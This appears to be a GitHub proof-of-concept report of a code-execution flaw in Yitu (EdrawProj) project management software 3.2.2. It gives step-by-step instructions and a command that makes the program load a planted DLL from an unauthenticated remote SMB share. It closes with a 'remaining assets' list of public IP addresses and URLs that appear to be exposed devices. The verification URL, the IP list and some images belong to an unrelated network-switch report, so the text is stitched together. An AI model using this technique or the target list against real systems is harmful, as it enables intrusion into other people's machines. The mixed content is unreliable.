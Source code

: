 # Shenzhen Yitu Software Co., Ltd. Yitu Project Management Software has a remote code execution vulnerability

## Overview
Manufacturer's address：[(https://www.wondershare.cn/)]
## Vulnerability impact
Yitu Project Management Software 3.2.2
## Vulnerability location
-platformpluginpath  \\172.16.2.88\shared
## Vulnerability details
Shenzhen Yitu Software Co., Ltd. Yitu Project Management Software has a remote code execution vulnerability.Attackers exploit the feature of directories being able to remotely share folders. When launching the qt program, they add the - platformpluginpath parameter to specify that the qt plugin loads the directory, thereby achieving the goal of remote code execution 
## Vulnerability verify
[(http://61.141.114.15:10034/index.htm)]
1.Create a shared folder on Windows, and add everyone to the shared folder security settings
<img width="185" alt="image" src="https://github.com/zty007666/Shenzhen-Yitu-Software-Yitu-Project-Management-Software/assets/26759286/219b9cdf-4d73-4f5a-b031-0860acf4f574">
2.Both sharing and advanced sharing require setting everyone full control permissions
![Alt text](image-1.png)
3.Shared password protection turned off
![Alt text](image-2.png)
![Alt text](image-3.png)
![Alt text](image-4.png)
4.Shared machine IP
![Alt text](image-5.png)
5.Verify that the machine opens the shared folder and confirms that there is an imageformats folder under the shared folder, and that there is an exp.dll verification file inside the imageformats folder.Be sure to open it through the resource manager \\The shared folder under 172.16.2.88 does not require account and password verification.
![Alt text](image-6.png)
6.Confirm the installation path for Wanxing Technology's Yitu project management
![Alt text](image-8.png)
7.The default installation path for verifying the machine is "C:\Program Files (x86)\Edrawsoft\EdrawProj (Simplified Chinese)\EdrawProj. exe".Please refer to the actual path for verifying the machine for details
8.Win+r ->cmd ->Execute the following command (the IP below is based on the actual verified IP of the machine that opened the shared folder, and the name of the shared folder can be modified according to the actual situation if there are no special requirements) "C:\Program Files (x86)\Edrawsoft\EdrawProj (Simplified Chinese)\EdrawProj. exe" - platformpluginpath \ \ 172.16.2.88\shared.Wait for the program to open and see the calc.exe process pop up
![Alt text](image-9.png)
9.Use the tool to view the launched Yitu project management process and load those DLLs. The ProcessHacker tool is used here
![Alt text](image-10.png)
10.You can see that the exp.dll has been loaded into the remote shared folder under imageformats, and verification has been successful

<img width="415" alt="image" src="https://github.com/zty-1995/RG-NBS2009G-P-switch/assets/154293428/3b5a0bd1-a3a1-409c-aafa-f1e44257bca8">
<img width="415" alt="image" src="https://github.com/zty-1995/RG-NBS2009G-P-switch/assets/154293428/cff04fd3-40d0-4b16-ae41-98225501c432">
<img width="416" alt="image" src="https://github.com/zty-1995/RG-NBS2009G-P-switch/assets/154293428/5b0ab660-d01c-4c1d-b5a3-5018d30996ea">
## remaining assets
http://113.116.145.214:10034/switch.htm
http://180.107.158.225:88/switch.htm
http://119.123.77.93:1033/switch.htm
http://61.141.114.15:10034/switch.htm
http://112.242.125.67:2222/switch.htm
http://59.45.111.251:10000/switch.htm
http://61.181.77.26:8091/switch.htm
http://119.123.77.93:1033/switch.htm
http://218.8.101.251:8010/switch.htm
http://112.26.136.90:8890/switch.htm
http://60.165.53.178:8813/switch.htm
http://112.242.125.67:2222/switch.htm
http://60.165.53.178:8812/switch.htm
http://60.165.53.178:8814/switch.htm
